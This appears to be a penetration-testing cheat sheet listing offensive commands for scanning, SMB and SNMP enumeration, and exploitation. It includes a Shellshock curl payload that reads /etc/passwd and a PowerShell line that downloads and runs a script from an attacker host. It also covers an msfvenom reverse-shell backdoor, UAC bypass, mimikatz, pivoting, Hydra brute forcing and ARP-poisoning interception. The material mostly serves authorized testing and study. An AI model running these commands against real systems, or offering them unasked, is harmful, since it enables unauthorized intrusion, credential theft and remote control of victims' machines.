 ## CheatSheet 

### 1.Scanning

#### 1.1 Most used nmap command
    - scan -Pn -sn TARGET                 : Search all alive host with or without open ports 
    - scan -sV -n TARGET                  : Fingerprint all exposed services
    - scan -sV -n TARGET -p SEVICE_PORT   : Fingerprint a specific exposed service
    - scan -O -n TARGET                   : Find Operating System

#### 1.2 Metasploit
    - auxiliary/scanner/smb/smb_version 
    - auxiliary/scanner/portscan/tcp
    
### 3.DNS Misconfiguration

    - dig @authorative_dns_server -t axfr DOMAIN              :    Exploiting zone transfer to display all subdomains
    - dig @authorative_dns_server axfr -x subNet (192.168)    :    Reverse DNS

### 2.SMB Misconfiguration

    nmap -p445 --script smb-protocols TARGET
    nmap -p445 --script smb-security-mode TARGET
    nmap -p445 --script smb-enum-users  TARGET

   #### 2.1 SMB Share
     Mount shared drive : 
       - Linux   : mount -t cifs -o user=USER,password=PWD,rw //IP/share
       - Windows : net use K: \\IPTarget\SharedDrive

   #### 2.2 Metasploit
    exploit/windows/smb/psexec
    exploit/windows/smb/smb_relay
    auxiliary/scanner/smb/smb_login
    auxiliary/scanner/smb/smb_enumshares

   #### 2.3 Check Null session (Anynomous Access)
    smbclient -L IPTarget


### 3.SNMP 
#### 3.1 Detection
    nmap -sU -p 161 Target

#### 3.2 Exploitation to guess community string and Collect Info
    nmap -sU -p 161 --script=snmp-brute Target
    snmpwalk -v 1 -c public Target
    nmap -sU -p 161 --script snmp-* Target > snmp_output

### 4.Exploitation

#### 4.1 Exploit ShellShock CVE-2014-6271 (suppose it is at /browser.cgi)
    nmap -sV -p80 --script http-shellshock --script-args uri=/browser.cgi,cmd='echo Content-Type: text/html; echo; /usr/bin/id' Target
    curl -H "user-agent: () { :; }; echo; echo; /bin/bash -c 'cat /etc/passwd'" http://Target/browser.cgi

#### 4.2 Other common exploits 
    - exploit/unix/ftp/proftpd_133c_backdoor for ProFTPD ==> Result in a shell
    - exploit/multi/misc/java_rmi_server ==> Result in a shell
    - auxiliary/scanner/mysql/mysql_authbypass_hashdump ==> dump mysql password hashes
    - exploit/windows/http/badblue_passthru for badblue 2.7 ==> Result in a shell
    - exploit/windows/http/rejetto_hfs_exec for hfs 2.3  ==> Result in a shell

### 3.Post Exploitation

#### 3.0 Infor Gathering
    run winenum
    run arp_scanner –r TargetNetworkSubnet
    run post/multi/gather/filezilla_client_cred
    run post/windows/gather/enum_applications

#### 3.1 Privilege Escalation

##### 3.1.1 All OS

    getsystem
    post/windows/gather/win_privs        : Check if UAC enabled
    exploit/windows/local/bypassuac      : Local exploit to bypass UAC
    
    run post/multi/recon/local_exploit_suggester
    
    - Method 1 : Search Local Exploit using MSF
    - Method 2 : Impersonate privileged users
    incognito
    mimikatz

##### 3.1.2 Via Windows Services 
    
    - Manually : 
        Search all services    
              ==> wmic service where 'NOT PathName like '%system32%' ' GET PathName, Name > list_srv.txt       
        For each service check if user can write in the service Path 
              ==> icacls “Path”
    
    - Using powerUp.ps1 script in https://powersploit.readthedocs.io/en/latest/Privesc/
        - Import the script to the Victim in Powershell ==> iex (New-Object Net.WebClient).DownloadString('http://HackeIP/PowerUp.ps1')
        - Run Invoke-AllChecks
        - Take note of the AbuseFunction (example : PriviligedService)
        - Use the PriviligedService to run any OS Command for example create new Admin user : Invoke-ServiceAbuse -Name PriviligedService  -UserName testUser -Password password_123 -LocalGroup "Administrators"

##### 3.1.3 
    - Using the UACMe framework
        - Generate backdoor : msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.10.15.2 LPORT=4444 -f exe > 'backdoor.exe'
        - Upload both backdoor.exe and UACMe executable
        - Akagi64.exe 23 C:\Users\admin\AppData\Local\Temp\backdoor.exe
    - 
        
##### 3.1.3 Specific Linux
    use exploit/multi/mysql/mysql_udf_payload if mysql running as root and we have the password

#### 3.3 Pivoting
    From MSF Console : route add 192.168.4.0 (subnet) 255.255.255.0(mask) 6(session)
    From metrerpreter : run autoroute -s 192.168.4.0/24
    
    portfarwarding (meterpreter) ==>  portfwd add -l LocalPort -p ServicePort -r victimeIP (ex: portfwd add -l 1234 -p 80 -r 10.0.17.12)
    portfwd list    ==> This meterpreter command display current portforwarding
    ssh Port Forwarding ==>
        - ssh -4 -L 8000:127.0.0.1:3306 user@target    : Forward traffic going to specific port to another port on the Victim
        - ssh -D 9090 user@target                      : Open socks proxy listning on 9090
        
### 4.Bruteforcing

    Brutefore Using Hydra     : hydra -L users.txt -P /usr/share/metasploit-framework/data/wordlists/unix_passwords.txt TARGET smb
    RDP from kali             : xfreerdp /u:guest_1 /p:guestpwd /v:Target
    SSH Using MSF             : auxiliary/scanner/ssh/ssh_login
    Brute Force MySQL         : use auxiliary/scanner/mysql/mysql_login
    
### 5.Sniffing

#### 5.1 MiTM between vtcim1 & victm2 using arp poisonning
    arpspoof -i tap0 -t vic1_IP -r vic2_IP
    arpspoof -i tap0 -t vic2_IP -r vic2_IP
